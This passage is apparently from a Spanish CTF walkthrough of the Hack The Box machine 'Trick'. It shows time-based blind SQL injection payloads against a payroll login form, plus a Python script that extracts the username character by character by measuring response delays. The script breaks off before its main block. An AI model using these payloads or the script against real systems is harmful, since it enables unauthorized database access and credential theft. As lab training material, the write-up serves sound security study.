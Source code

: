 Podemos comprobar que es vulnerable con el payload en el campo username: **' or sleep(10)-- -** y veremos que la web tarda 10 segundos en responder.

Hay varias formas de aprovecharse de esto, podemos suponer que existe una tabla llamada **username** con un campo llamado **users** y empezar por ahi. Sino podriamos empezar enumerando esquemas, luego tablas, columnas, etc. Tal y como hemos hecho antes.

Lo primero que haremos será averiguar por qué letra empieza el usuario. Usaremos el siguiente payload: **' or (select case when hex(substring(username,1,1))=hex('E') then sleep(5) end from users)-- -**. 

La letra sabemos que es la **E**. Ahora descubriremos cuantas tiene: **' or (select case when hex(substring(username,1,1))=hex('E') and length(username)>=10 then sleep(5) end from users)-- -** <br>Probando varios valores nos daremos cuenta que tiene 10 letras. Es momento de scriptear.

Con esto sacaremos el nombre:
```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, sys, time, signal, string


def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

# Ctrl C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url="http://preprod-payroll.trick.htb/ajax.php?action=login"
characters = string.ascii_lowercase + string.ascii_uppercase

def makeRequest():
    
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando Fuerza bruta")
    
    time.sleep(2)
    
    username = ''
    p2 = log.progress("Username")

    for position in range(1,11):
        for character in characters:
            post_data = {
                    'username':"""' or (select case when hex(substring(username,%d,1))=hex('%s') then sleep(1.5) end from users)-- -""" %(position, character),
                    'password': 'test'
                }
            p1.status(post_data['username'])

            time_start = time.time()

            r = requests.post(url=login_url, data=post_data)

            time_end = time.time()

            if time_end - time_start > 1.5:
                username += character
                p2.status(username)
                break

if __name__ == '__main__':

```